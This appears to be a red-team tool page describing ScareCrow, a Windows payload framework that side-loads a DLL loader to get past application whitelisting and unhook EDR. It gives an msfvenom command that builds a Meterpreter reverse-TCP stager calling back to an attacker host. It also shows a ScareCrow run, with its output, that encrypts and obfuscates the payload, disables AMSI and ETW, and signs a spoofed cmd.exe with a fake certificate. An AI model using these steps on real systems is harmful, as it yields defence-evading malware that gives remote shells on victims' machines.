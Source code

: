 # Scarecrow

### Overview

ScareCrow is a payload creation framework for side loading (not injecting) into a legitimate Windows process (bypassing Application Whitelisting controls). Once the DLL loader is loaded into memory, it utilizes a technique to flush an EDR’s hook out of the system DLLs running in the process's memory. This works because we know the EDR’s hooks are placed when a process is spawned.

### Install

```
sudo apt install openssl osslsigncode mingw-w64 
go build ScareCrow.go
```

### Usage

* generate some raw shellcode&#x20;

```
msfvenom LHOST=192.168.15.97 LPORT=8443 -p windows/x64/meterpreter/reverse_tcp  -f raw -o /tmp/stager.exe
```

* run the tool with the options you want&#x20;

```
./ScareCrow -Evasion Disk -Exec NtQueueApcThreadEx -Loader binary -O binary -domain www.google.com -encryptionmode AES -noamsi -obfu -outpath /tmp -I /tmp/stager.raw
 
  _________                           _________                       
 /   _____/ ____ _____ _______   ____ \_   ___ \_______  ______  _  __
 \_____  \_/ ___\\__  \\_  __ \_/ __ \/    \  \/\_  __ \/  _ \ \/ \/ /
 /        \  \___ / __ \|  | \/\  ___/\     \____|  | \(  <_> )     / 
/_______  /\___  >____  /__|    \___  >\______  /|__|   \____/ \/\_/  
        \/     \/     \/            \/        \/                      
                                                        (@Tyl0us)
        “Fear, you must understand is more than a mere obstacle. 
        Fear is a TEACHER. the first one you ever had.”

[!] -O not needed. This loader type uses the name of the file they are spoofing
[!] Missing Garble... Downloading it now
[+] Shellcode Encrypted
[+] Patched ETW Enabled
[+] Sleep Timer set for 2830 milliseconds 
[*] Creating an Embedded Resource File
[+] Created Embedded Resource File With cmd's Properties
[*] Compiling Payload with the Garble's literal flag... this will take a while
[+] Payload Compiled
[*] Signing cmd.exe With a Fake Cert
[+] Signed File Created
[+] Binary Compiled
[!] Sha256 hash of cmd.exe: 4ffb9fdb3e6bdb08518baabc997f74e80e6680867c25b82cf4765753dceb6a6e
[*] cmd.exe moved to /tmp/
```

